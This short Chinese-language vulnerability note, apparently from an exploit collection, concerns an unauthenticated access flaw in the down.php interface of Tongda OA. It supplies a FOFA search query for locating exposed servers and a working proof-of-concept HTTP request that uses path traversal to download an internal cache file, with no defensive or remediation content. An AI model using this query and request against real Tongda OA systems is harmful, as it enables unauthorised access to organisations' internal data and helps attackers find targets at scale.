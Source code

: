 
## 通达OA down.php接口存在未授权访问漏洞

## fofa
```
app="TDXK-通达OA"
```

## poc

```
http://127.0.0.1/inc/package/down.php?id=../../../cache/org

GET /inc/package/down.php?id=../../../cache/org HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```

![](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411281008543.png)
